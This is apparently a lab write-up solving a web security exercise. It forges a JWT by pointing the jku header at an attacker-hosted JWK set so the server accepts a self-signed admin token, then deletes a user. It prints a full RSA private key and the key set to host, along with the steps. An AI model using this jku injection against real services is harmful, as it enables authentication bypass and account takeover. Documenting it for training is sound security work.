



## Objective 

This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user carlos.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

We have already generated a set of JWK keys in the last lab and we can utilise the same 

```json
{
    "p": "ziJL_ySicg5OP17XtGGWTKksIj1AdbMFi3pK9xqsCYGMFDJ_zag_wZaZfY15kzo9brD5iZ7J-lZzWiorJvrTZjB3VxwVqXtX0dTj8p44grBu6EJvJJ77v4qgnUD_ec4NPJB4La5FRkc1zSl1mXxyiaRSnKVPp-PIxZWK5ritHSc",
    "kty": "RSA",
    "q": "vNhU6Qftu1X9jCToARsKThnkk8UE55Lp4epzhNo8Qo8pugLgwJ3n7Ufrtq-rTnHvpNpFGsGbEgPP_Ush4hK4XGqIMBpHZfjnjbValv_1EGLqso6wmMxFGkZ1mTvzuoaXU_HL7CU2ufKmEZqjwZ7ny3Zb7Kdr2_rPL8bdfWHaToE",
    "d": "EiQY52cfkUMmJYA9hgxho2zMleLogX2XQis0j-snIwywDwrwcnr_Txs28WRLs2ln2MLon2w5_QKt_bDGt-284LR5oESe_oZbNe2v2ad0_F5cItI2z6lji8ubd1S__9PL5x-fgK7PGO2UcTVRANbLlI79UOUYQHyp-ITgCAmQrkfeacC6ISvp4EGjZm-qYq-DCMjnymWXm4XyHd_uGfWLaFk2ls_JE0YD21Ni0Q-CwcMXbKqidGoCBSLO6ubjSLS6vB_rkgwc-e9DOwQKcaee9gSMUUrRZyNgT2_MnU5vFJeORvvfIcPPjtPpgcBcaBUzJWlNCdsFRtC47UgsmyYgAQ",
    "e": "AQAB",
    "kid": "jwt-lab",
    "qi": "MkyvhFVHUPMOj7pZg8eHdr-oqKgz6MDQf-PrI21YkH9f1ItiF5i5xgot-DOazfKQVD_mSJZqWLGTE3P_LnBH5aDegcxvEDfiIW-0P1eIMyhFOnQXBWxE_NXA_MQhdXDkA0mC-kWr2gwWBTDt92TTq5LNouo5aOlg-_Ezp1LxzDk",
    "dp": "vDl_EZyfJOzBMIZnCxQtDRVQ8nbh3Fe7EXB68YaOXyPHCE5QezdN-HSO9aFwySpeHCxHwA2ZuxijvkpRGwfgbyiEYKuJcDfrqfPurYUibtuyeiznlhYCJRXtsYo_fjbTyWDWDEhcg17U1uErvBpx8BN3SAh_YvvRQfJaYnFxyfM",
    "dq": "DVvQRdvFuWbP1MYXk1xyUiwKu1lIi4kc-lo3acJ2WM7_yKTDeVyyN1rLFdU_bQEqTqMSGF5xtciHQge6kd95IzB2CdESE-iTmLanfd8FWu9kYtUtMOHiUYWCdCCFkUBMHCgSoNXRFT5Q-RXTV7MB-qaYwhjlzF3loh-TM3dklgE",
    "n": "mA9hHmK3dL0DE8RgmUuwihO7oo8jxHpZZmkrfx4Xg_eLj2C5t2GsgsoQem5Eh9nGy0QmJQEuZ0TQKjgGOOYjZdm_BS5tEaM-ZOAO6Ko29RuxzobzfQm1mt1QEwqK-gMtldsyTU2zaxxgs9V2xZTWdjfERkcyeYZ0S5Mjsm55RZytFX4b7Nku1odJgkcR8LpJe9wq8OW8Tjy1dswl11cvW5nUq6HcmyrimiFCAVLuz6RL8JgyJAiIe5mQfE0mjRwc6hpStvbfdKX1tGRvb57tGsyVmEFbK1KOpUJwMbL_sWlJNs-m2Hhgh9rrsvWsD1s5VkmCPlPvJjYo_A0JaFOSpw"
}
```

Now from the above keys, we can make an array for exploit server kind of supplying it through a remote server 

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "jwt-lab",
            "n": "mA9hHmK3dL0DE8RgmUuwihO7oo8jxHpZZmkrfx4Xg_eLj2C5t2GsgsoQem5Eh9nGy0QmJQEuZ0TQKjgGOOYjZdm_BS5tEaM-ZOAO6Ko29RuxzobzfQm1mt1QEwqK-gMtldsyTU2zaxxgs9V2xZTWdjfERkcyeYZ0S5Mjsm55RZytFX4b7Nku1odJgkcR8LpJe9wq8OW8Tjy1dswl11cvW5nUq6HcmyrimiFCAVLuz6RL8JgyJAiIe5mQfE0mjRwc6hpStvbfdKX1tGRvb57tGsyVmEFbK1KOpUJwMbL_sWlJNs-m2Hhgh9rrsvWsD1s5VkmCPlPvJjYo_A0JaFOSpw"
        }
    ]
}
```

Now through the repeater in the `JWT tab` we can make few changes like:

- Change `kid` value to the same as one you updated in the exploit server which is `jwt-lab`
- add `jku` header with the value as exploit server where the jwk keys set is hosted 



Once after that, we can sign the keys using our RSA keys and send the request.. now, we can able to access the admin panel now through `/admin`



And we can just delete the user called `carlos` and that solves the lab 

